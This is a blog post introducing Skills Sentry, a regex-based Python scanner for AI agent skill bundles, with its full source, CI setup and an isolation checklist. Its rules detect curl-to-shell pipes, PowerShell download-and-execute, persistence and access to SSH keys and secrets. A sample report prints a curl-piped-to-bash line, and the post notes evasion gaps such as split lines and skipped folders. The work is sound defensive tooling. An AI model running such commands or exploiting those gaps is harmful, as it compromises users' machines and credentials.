


import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

A skill from a public marketplace arrives with code, setup instructions and a download count. The download count is no evidence of safety. I built Skills Sentry, a static scanner that reads a skill bundle without running it and scores its risk before the bundle touches my machine.

<!-- truncate -->

<details>
<summary>TL;DR</summary>

- Installing a marketplace skill means installing trust in whoever wrote it.
- Skills Sentry is a Python CLI with 10 regex rules. It flags text patterns linked to risky behavior and gives a risk score from 0 to 100.
- It runs locally or in CI and can fail the build on severity or on total score.
- It is a heuristic. Pair it with isolation at runtime.

</details>

## Malware in the top downloaded skill

Two posts were enough to justify a guardrail.

> Daniel Lockyer: "malware found in the top downloaded skill on clawhub and so it begins."
>
> Elon Musk: "Here we go."

The malware sat in the top downloaded skill. The ranking worked as designed and delivered it to the most people. Popularity becomes distribution, and distribution becomes the exploit.

The real risk is the workflow. Skills often ship as code plus setup instructions. A skill that convinces you to run one command can use that command to download and run anything after it.



So I wanted a local, boring gate: point it at a skill bundle and get a risk report.

## Patterns the scanner flags

Skills Sentry reports text patterns that often come with risky behavior. It cannot read intent. It makes no claim to detect malware, and the warning below says so in writing.

It looks for:

- Remote script execution patterns (`curl` or `wget` piped to `sh`, PowerShell `iwr`, and similar)
- Obfuscation patterns, meaning code written to hide what it does (base64 decode, `eval`, long encoded blobs)
- Sensitive file targeting (`.ssh`, env files, wallet keywords)
- Suspicious install steps (`chmod +x`, cron, launch agents)

Then it outputs:

- A risk score (0 to 100)
- Findings grouped by severity
- A JSON report you can keep in CI



In `skills_sentry.py`, every text file goes through the same regex pass in `scan_text_file`, and the rules match one line at a time. Nothing parses configs, and nothing checks the network. The CI gate in `fail_decision` blocks on the score or on the severity set by `--fail-on`.

The score adds a fixed weight per finding and stops at 100. It counts every matching line for every rule, so one high rule matched on a handful of lines reaches 100 by itself. It knows nothing about intent.

Line-by-line matching has a cost. Suppose a skill splits a download-and-run command across two lines: that version does not match `REMOTE_SHELL_PIPE`.

The scanner also skips folders such as `dist`, `build`, `node_modules` and `.venv`, so for example a payload placed in `dist/` is never read. Large files with an extension outside its text list are skipped as well. A clean report covers only the files the scanner opened.

False positives come from the same simplicity. For example, a README that mentions "private key" in a security note triggers `WALLET_KEYWORDS` as a high finding.

:::warning[Heuristic Scanner, Not Malware Detection]
This is a heuristic scanner. It will miss novel obfuscation, and it will produce false positives.
Use it to block obvious risky patterns. Never treat a clean report as proof that a skill is safe.
:::

## Regex and zero dependencies

Regex and zero dependencies are the boring default, and they fit here. The person who decides whether to trust a bundle has to be able to read the rules. No model is required to spot `curl` piped into `bash`.

| Component | Technology | Why |
|---|---|---|
| Language | Python 3.11+ | Zero dependencies, runs anywhere |
| Detection | Regex pattern matching | Fast, auditable, no ML overhead |
| Scoring | Weighted severity (`low=5, medium=15, high=30`) | Plain, predictable, tuneable |
| Output | Console + JSON | Readable by humans, parseable by CI |
| Input | Folder or ZIP | Handles local and distributed bundles |

## Source, CLI and rules

[View Code](https://github.com/victorstack-ai/skills-sentry)

The repo, `skills-sentry`, has the CLI, sample fixtures and an optional GitHub Action that scans pull requests.

### CLI usage

<Tabs>
<TabItem value="quick" label="Quick Scan" default>

```bash title="quick-scan.sh"
python skills_sentry.py scan ./some-skill-bundle --json out/report.json
```

</TabItem>
<TabItem value="zip" label="Zip Bundle">

```bash title="zip-scan.sh"
python skills_sentry.py scan ./skill.zip --json out/report.json
```

</TabItem>
<TabItem value="ci" label="CI Gate">

```bash title="ci-gate.sh"
# highlight-next-line
python skills_sentry.py scan ./bundle --fail-on high --max-score 60
```

</TabItem>
</Tabs>

### Detection rules

The scanner ships with 10 built-in rules for common supply-chain attack patterns. A supply-chain attack hides malicious code in something you install, so you run it yourself.

| Rule ID | Severity | What It Detects |
|---|---|---|
| `REMOTE_SHELL_PIPE` | High | `curl/wget` piped to `sh/bash/zsh` |
| `POWERSHELL_IWR_EXEC` | High | PowerShell download-and-exec |
| `BASE64_DECODE_EXEC` | High | Base64 decode + execution |
| `EVAL_USAGE` | Medium | `eval()` or `Function()` calls |
| `CHMOD_EXEC` | Medium | `chmod +x` in a scanned line |
| `CRON_PERSISTENCE` | High | Mentions of cron, launchctl, LaunchAgents or schtasks |
| `SSH_KEY_TOUCH` | High | Mentions of `.ssh/`, `id_rsa`, `known_hosts` or `ssh_config` |
| `ENV_SECRETS` | High | `.env`, `dotenv`, `process.env`, `os.environ` |
| `WALLET_KEYWORDS` | High | Crypto wallet, seed phrase, mnemonic |
| `OBFUSCATED_BLOB` | Medium | Large base64-encoded blobs (400+ chars) |

### skills_sentry.py

<details>
<summary>Full scanner source code</summary>

```python title="skills_sentry.py" showLineNumbers
#!/usr/bin/env python3
from __future__ import annotations

import argparse
import json
import os
import re
import sys
import tempfile
import zipfile
from dataclasses import dataclass
from pathlib import Path
from typing import Iterable, List, Optional, Tuple


@dataclass
class Finding:
    severity: str  # low, medium, high
    rule_id: str
    message: str
    file: str
    line: Optional[int] = None
    excerpt: Optional[str] = None


RULES: List[Tuple[str, str, str, re.Pattern]] = [
    # rule_id, severity, message, regex
    (
        "REMOTE_SHELL_PIPE",
        "high",
        "Remote script piped to a shell is a classic supply-chain footgun.",
        re.compile(r"\b(curl|wget)\b.*\|\s*(sh|bash|zsh)\b", re.IGNORECASE),
    ),
    (
        "POWERSHELL_IWR_EXEC",
        "high",
        "PowerShell download-and-exec pattern detected.",
        re.compile(r"\b(iwr|Invoke-WebRequest)\b.*\|\s*(iex|Invoke-Expression)\b", re.IGNORECASE),
    ),
    (
        "BASE64_DECODE_EXEC",
        "high",
        "Base64 decode combined with execution often indicates obfuscation.",
        re.compile(r"(base64\s+-d|frombase64|atob)\b.*(sh|bash|powershell|python|node|eval)", re.IGNORECASE),
    ),
    (
        "EVAL_USAGE",
        "medium",
        "Eval usage is risky and commonly abused.",
        re.compile(r"\b(eval|Function)\s*\(", re.IGNORECASE),
    ),
    (
        "CHMOD_EXEC",
        "medium",
        "chmod +x during install is not always bad, but it increases risk.",
        re.compile(r"\bchmod\s+\+x\b", re.IGNORECASE),
    ),
    (
        "CRON_PERSISTENCE",
        "high",
        "Cron or scheduled task persistence hints at unwanted background behavior.",
        re.compile(r"\b(crontab|cron\.d|launchctl|LaunchAgents|schtasks)\b", re.IGNORECASE),
    ),
    (
        "SSH_KEY_TOUCH",
        "high",
        "Touching SSH keys or config is a red flag in a skill bundle.",
        re.compile(r"(\.ssh/|id_rsa|known_hosts|ssh_config)", re.IGNORECASE),
    ),
    (
        "ENV_SECRETS",
        "high",
        "Accessing env files or secrets is high risk in marketplace code.",
        re.compile(r"(\.env\b|dotenv|process\.env|os\.environ)", re.IGNORECASE),
    ),
    (
        "WALLET_KEYWORDS",
        "high",
        "Crypto wallet keywords detected. Treat as sensitive.",
        re.compile(r"\b(seed phrase|mnemonic|private key|wallet|metamask)\b", re.IGNORECASE),
    ),
    (
        "OBFUSCATED_BLOB",
        "medium",
        "Large encoded blobs often hide payloads.",
        re.compile(r"[A-Za-z0-9+/]{400,}={0,2}"),
    ),
]

TEXT_EXTS = {
    ".md", ".txt", ".json", ".yaml", ".yml", ".toml", ".ini",
    ".py", ".js", ".ts", ".tsx", ".sh", ".bash", ".zsh",
    ".ps1", ".bat", ".cmd", ".rb", ".go", ".java", ".php",
}

SKIP_DIRS = {".git", "node_modules", ".venv", "venv", "dist", "build", "__pycache__"}


def iter_files(root: Path) -> Iterable[Path]:
    for p in root.rglob("*"):
        if p.is_dir():
            continue
        if any(part in SKIP_DIRS for part in p.parts):
            continue
        yield p


def is_text_candidate(p: Path) -> bool:
    if p.suffix.lower() in TEXT_EXTS:
        return True
    try:
        return p.stat().st_size <= 512_000
    except OSError:
        return False


def read_lines(p: Path) -> List[str]:
    try:
        data = p.read_bytes()
    except OSError:
        return []
    if b"\x00" in data[:4096]:
        return []
    try:
        return data.decode("utf-8", errors="replace").splitlines()
    except Exception:
        return []


# highlight-next-line
def scan_text_file(p: Path, root: Path) -> List[Finding]:
    rel = str(p.relative_to(root))
    lines = read_lines(p)
    findings: List[Finding] = []
    for idx, line in enumerate(lines, start=1):
        for rule_id, severity, message, pattern in RULES:
            if pattern.search(line):
                findings.append(
                    Finding(
                        severity=severity,
                        rule_id=rule_id,
                        message=message,
                        file=rel,
                        line=idx,
                        excerpt=line.strip()[:240],
                    )
                )
    return findings


def score(findings: List[Finding]) -> int:
    weights = {"low": 5, "medium": 15, "high": 30}
    raw = sum(weights.get(f.severity, 0) for f in findings)
    return min(100, raw)


def summarize(findings: List[Finding]) -> dict:
    by_sev = {"high": [], "medium": [], "low": []}
    for f in findings:
        by_sev.setdefault(f.severity, []).append(f)
    return {
        "counts": {k: len(v) for k, v in by_sev.items()},
        "findings": {
            k: [
                {"rule_id": x.rule_id, "message": x.message, "file": x.file, "line": x.line, "excerpt": x.excerpt}
                for x in v
            ]
            for k, v in by_sev.items()
        },
    }


def unpack_if_zip(path: Path) -> Path:
    if path.is_dir():
        return path
    if path.suffix.lower() != ".zip":
        raise ValueError("Input must be a folder or a .zip file.")
    tmp = Path(tempfile.mkdtemp(prefix="skills_sentry_"))
    with zipfile.ZipFile(path, "r") as z:
        z.extractall(tmp)
    return tmp


def scan_bundle(input_path: Path) -> Tuple[int, List[Finding], Path]:
    root = unpack_if_zip(input_path)
    findings: List[Finding] = []
    for f in iter_files(root):
        if not is_text_candidate(f):
            continue
        findings.extend(scan_text_file(f, root))
    return score(findings), findings, root


def fail_decision(findings: List[Finding], risk: int, fail_on: Optional[str], max_score: Optional[int]) -> bool:
    if max_score is not None and risk > max_score:
        return True
    if not fail_on:
        return False
    sev_rank = {"low": 1, "medium": 2, "high": 3}
    min_rank = sev_rank.get(fail_on.lower(), 3)
    for f in findings:
        if sev_rank.get(f.severity, 0) >= min_rank:
            return True
    return False


def main() -> int:
    ap = argparse.ArgumentParser(prog="skills_sentry", description="Static scanner for agent skill bundles.")
    sub = ap.add_subparsers(dest="cmd", required=True)
    scan = sub.add_parser("scan", help="Scan a folder or zip bundle and print a report.")
    scan.add_argument("path", help="Path to a skill folder or .zip bundle.")
    scan.add_argument("--json", dest="json_path", help="Write JSON report to this path.")
    scan.add_argument("--fail-on", choices=["low", "medium", "high"], help="Exit non-zero if findings at or above this severity exist.")
    scan.add_argument("--max-score", type=int, help="Exit non-zero if risk score exceeds this value (0-100).")
    args = ap.parse_args()
    input_path = Path(args.path).expanduser().resolve()
    try:
        risk, findings, root = scan_bundle(input_path)
    except Exception as e:
        print(f"ERROR: {e}", file=sys.stderr)
        return 2
    report = {"risk_score": risk, "root": str(root), **summarize(findings)}
    print(f"Risk score: {risk}/100")
    print(f"High: {report['counts']['high']}  Medium: {report['counts']['medium']}  Low: {report['counts']['low']}")
    if report["counts"]["high"] or report["counts"]["medium"]:
        print("\nTop findings:")
        shown = 0
        for sev in ["high", "medium", "low"]:
            for f in report["findings"][sev]:
                print(f"- [{sev.upper()}] {f['rule_id']} in {f['file']}:{f['line']}  {f['excerpt']}")
                shown += 1
                if shown >= 12:
                    break
            if shown >= 12:
                break
    if args.json_path:
        out = Path(args.json_path).expanduser().resolve()
        out.parent.mkdir(parents=True, exist_ok=True)
        out.write_text(json.dumps(report, indent=2), encoding="utf-8")
        print(f"\nWrote JSON report: {out}")
    should_fail = fail_decision(findings, risk, args.fail_on, args.max_score)
    return 1 if should_fail else 0


if __name__ == "__main__":
    raise SystemExit(main())
```

</details>

### Example output

In the sample below, the remote shell pipe sits in `install.md`, a markdown file. The install instructions are part of the attack surface, so the scanner reads docs as well as code. The total is plain arithmetic from the severity weights in the table above: the two high findings and the one medium finding add up to the score shown.

<details>
<summary>Sample console report</summary>

```text
Risk score: 75/100
High: 2  Medium: 1  Low: 0

Top findings:
- [HIGH] REMOTE_SHELL_PIPE in install.md:12  curl https://example.com/bootstrap.sh | bash
- [HIGH] ENV_SECRETS in src/agent.js:44  process.env.OPENAI_API_KEY
- [MEDIUM] CHMOD_EXEC in setup.sh:7  chmod +x ./bin/run
```

</details>

### CI example

`--fail-on` blocks when any finding reaches the chosen severity, and `--max-score` blocks when the total exceeds the number. The CI gate uses both, so a single high finding fails the build even when the total stays under the threshold.

The workflow scans `./bundle`, not the repository root. The root holds `skills_sentry.py`, and the scanner's own rule text matches its rules. A scan of `.` flags `skills_sentry.py` itself and fails every run.

<Tabs>
<TabItem value="gha" label="GitHub Actions" default>

```yaml title=".github/workflows/skill-scan.yml" showLineNumbers
name: Skill bundle scan
on:
  pull_request:
  push:
    branches: [main]
jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run Skills Sentry
        # highlight-next-line
        run: python skills_sentry.py scan ./bundle --fail-on high --max-score 60 --json out/report.json
```

</TabItem>
<TabItem value="local" label="Pre-commit">

```bash title="pre-commit-scan.sh"
# Run before you install or publish a skill bundle
python skills_sentry.py scan ./bundle --fail-on medium --max-score 40
```

</TabItem>
</Tabs>

## Two gates, because one is a heuristic

A static scan catches what a skill's files say it will do. What the skill does at runtime needs a second gate, and that gate is isolation.

| Gate | When | What it does | Limitation |
|---|---|---|---|
| Static scan | Before install | Blocks obvious patterns like shell pipes, secret access, persistence | Misses novel obfuscation, raises false positives |
| Runtime isolation | While the agent runs | Separate OS user, container or VM, scoped credentials | Does not tell you what the skill intended |

:::tip[Isolation Is the Best Security Feature]
If you run agents locally, the best security feature is still isolation. Use a separate OS user, a container or a VM for anything that can execute tools. Give it scoped credentials, so a compromised skill cannot reach production without passing your normal gates. Skills Sentry catches the obvious cases. Isolation limits the damage from the cases it misses, but it does not fix them.
:::

## Checklist before installing a skill

- [ ] Run `skills_sentry.py scan` on the bundle and write the JSON report.
- [ ] Read every high finding by hand, including those in markdown install steps.
- [ ] Check that the skill declares the secrets it needs and fails closed without them.
- [ ] Run the agent under a separate OS user, in a container or in a VM.
- [ ] Give it scoped credentials, never production access.
- [ ] Add the scan to CI with `--fail-on` and `--max-score`.

## References

- [malware found in the top downloaded skill on clawhub and so it begins](https://x.com/DanielLockyer/status/2019422410018267328) (Daniel Lockyer)
- [Here we go](https://x.com/elonmusk/status/2019823468968370633) (Elon Musk)
